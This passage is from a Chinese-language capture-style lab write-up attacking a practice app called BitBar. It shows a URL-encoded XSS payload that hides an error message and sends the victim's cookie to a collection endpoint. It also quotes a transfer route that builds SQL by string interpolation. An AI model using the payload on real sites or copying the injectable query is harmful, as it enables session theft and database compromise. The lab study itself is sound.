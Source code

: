 访问不存在的用户时会出现蓝色错误信息。

![image-20220504204905138](https://raw.githubusercontent.com/HSPK/pics/master/img/image-20220504204905138.png)

但是，不能使用 html 标签来隐藏错误信息，因为标签之前有字符串 User，因此会固定显示一个 User。如下图所示：

![image-20220504205442208](https://raw.githubusercontent.com/HSPK/pics/master/img/image-20220504205442208.png)

所以采用 js 代码的方式进行控件删除或隐藏，URL 与 2022 版相同：

```shell
http://localhost:3000/profile?username=%0D%0A%3Cscript%3E%0D%0A%20%20%20%20document.getElementsByClassName(%27error%27)%5B0%5D.hidden%20%3D%20true%3B%0D%0A%20%20%20%20const%20params%20%3D%20%22cookie%3D%22%20%2B%20encodeURIComponent(document.cookie)%3B%0D%0A%20%20%20%20const%20req%20%3D%20new%20XMLHttpRequest()%3B%0D%0A%20%20%20%20req.withCredentials%3Dtrue%3B%0D%0A%20%20%20%20req.onload%20%3D%20function()%20%7B%0D%0A%20%20%20%20%20%20%20%20window.location%20%3D%20%27http%3A%2F%2Flocalhost%3A3000%2Fprofile%27%3B%0D%0A%20%20%20%20%7D%0D%0A%20%20%20%20req.open(%27GET%27%2C%20%27http%3A%2F%2Flocalhost%3A3000%2Fsteal_cookie%3F%27%20%2B%20params)%3B%0D%0A%20%20%20%20req.setRequestHeader(%22Content-Type%22%2C%20%22application%2Fx-www-form-urlencoded%22)%3B%0D%0A%20%20%20%20req.send(null)%3B%0D%0A%3C%2Fscript%3E
```

访问 URL 后，在服务端查看信息：

![image-20220504210106543](https://raw.githubusercontent.com/HSPK/pics/master/img/image-20220504210106543.png)

## Attack 2: Session hijacking with Cookies

这个任务要求是登录 attacker 账户，欺骗应用以为你是 user1，然后将 user1 中的 BitBar 转入 attacker 中。

attacker 的密码是 evil，user1 的 ID 是 1。

### 漏洞分析

**spring 2022 版**

查看 cookie：

![image-20220504175455240](https://raw.githubusercontent.com/HSPK/pics/master/img/image-20220504175455240.png)

cookie 实际上是经过 base64 编码后的信息，通过 `atob()` 解码：

![image-20220504175546565](https://raw.githubusercontent.com/HSPK/pics/master/img/image-20220504175546565.png)

查看转账逻辑：

```js
router.post('/post_transfer', asyncMiddleware(async(req, res, next) => {
  if(req.session.loggedIn == false) {
    render(req, res, next, 'login/form', 'Login', 'You must be logged in to use this feature!');
    return;
  };

  if(req.body.destination_username === req.session.account.username) {
    render(req, res, next, 'transfer/form', 'Transfer Bitbars', 'You cannot send money to yourself!', {receiver:null, amount:null});
    return;
  }

  const db = await dbPromise;
  let query = `SELECT * FROM Users WHERE username == "${req.body.destination_username}";`;
  const receiver = await db.get(query);
  if(receiver) { // if user exists
    const amount = parseInt(req.body.quantity);
    if(Number.isNaN(amount) || amount > req.session.account.bitbars || amount < 1) {
      render(req, res, next, 'transfer/form', 'Transfer Bitbars', 'Invalid transfer amount!', {receiver:null, amount:null});
```